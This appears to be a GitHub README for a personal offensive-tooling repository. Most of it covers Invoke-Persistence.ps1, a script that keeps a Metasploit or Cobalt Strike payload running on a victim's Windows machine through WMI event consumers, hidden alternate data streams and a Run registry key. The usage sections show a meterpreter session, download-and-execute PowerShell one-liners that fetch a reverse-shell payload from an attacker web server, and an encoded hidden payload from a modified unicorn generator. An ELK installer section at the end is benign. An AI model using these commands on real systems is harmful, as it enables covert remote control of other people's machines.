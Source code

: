 # Random-Scripts
My scripts and modifications to other people's scripts to suit my needs

### Invoke-Persistence.ps1
This is a modified version of Invoke-ADSBackdoor persistence script by @enigma0x3. I basically just added WMI persistence capability and the modified it to take a payload as URL. I also modified Nikhil Mittal Remove-Persistence module from Nishang to be able to remove the WMI Persistence module. It basically takes in a URL payload generated by metasploit or cobalt strike stored on your webserver. It used two methods to achieve persistence. If its run with admin privileges it leverages WMI persistence, if run without it creates a payload by using two Alternate Data Streams and creates are key in the registry HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run (lame I know) so its executed on startup. The first Alternate Data stream stores the payload and the second Alternate Data Stream stores some VBScript that acts as a wrapper in order to hide the DOS prompt when invoking the data stream containing the payload. 

### USAGE
```
meterpreter > shell
Process 5604 created.
Channel 6 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  
All rights reserved.
C:\users\test>powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Invoke-Persistence -URL http://192.168.83.175/rev_https.ps1
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Invoke-Persistence -URL http://192.168.83.175/rev_https.ps1
```
### Check and Remove Persistence
```
C:\users\test>powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence
WARNING: WMI permanent event consumer persistence found. Use with -Remove option to clean.

C:\users\test>powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence -Remove
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence -Remove
Checking for existence of WMI Persistence
Removing WMI Persistence
Removing the ADS Backdoor
No RegKey Persistence Found

C:\users\test>powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence

C:\users\test>
```
### Why?
For some reason Im unable to use the Persistence module from PowerSploit without breaking the Powershell of the Victim computer. Nishang's Add-Persistence non admin technique doesnt leverage ADS. Enigma0x3's script doesnt have a WMI Persistence function.

### mod_unicorn.py
This is a fork from TrustedSec's Dave Kennedy powershell payload generator. Sometimes you just want a properly obfuscated unicorned payload without any spaces or fancy character joining to paste into your script. 

### USAGE
```
root@kali:~/unicorn# python mod_unicorn.py 
[*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...
[*] Running code through a lame var replace
powershell -nop -win hidden -noni -enc JAB5AGwAbwAgAD0AIAAnACQARgBkAEsAZAAgAD0AIAAnA..
....snip...
QB7ADsAaQBlAHgAIAAiACYAIABwAG8AdwBlAHIAcwBoAGUAbABsACAAJABoAGIAcwAgACQAZQAiADsAfQA=
```

### ELK_installer_master.sh
Simple bash script to automate the installation and configuration of ELK. Tested on Ubintu 16.04 LTS

### USAGE
```
evil@ubuntu:~/Desktop$ sudo ./ELK_installer_master.sh 
[+] We are root and good to go!
[+] Installing a few dependencies (Openjdk, nginx, openssh-server & apt-transport ) for ELK
[+] This could take a while...
[+] Installing Elastic PGP signing key
OK
[+] Done
[+] Adding Elastic Packages source list definitions to your sources list
deb https://artifacts.elastic.co/packages/5.x/apt stable main
[+] Done
[+] Installing & Configuring Elastic Search
[+] Done
[+] Starting Elastic Search
[+] Elastic Search is up and running.
[+] Installing & Configuring Kibana
[+] Done
[+] Starting Kibana
[+] Kibana is up and running.
[+] Create a password to log into our Kibana web interface: kibadmin
[+] Please confirm: kibadmin
kibadmin:$apr1$vUzMPzMm$AavpIQb/TutkMHVizawfs0
Username: kibadmin
[+] Password set.
[+] Configuring nginx
[+] Enter IP Address:192.168.83.142
[+] Testing nginx config
[+] Nginx is up and running. You should be able to log into Kibana
[+] Installing & Configuring Logstash
[+] Your cert has been stored to the location below.
/etc/pki/tls/certs/logstash-forwarder.crt
[+] Done
[+] Creating custom Logstash configuration files.
[+] Starting logstash.
[+] Logstash is up and running.
[+] The log file for ELK is located at: /var/log/ELK_install.log.
[+] We should be all good.
evil@ubuntu:~/Desktop$ 
```
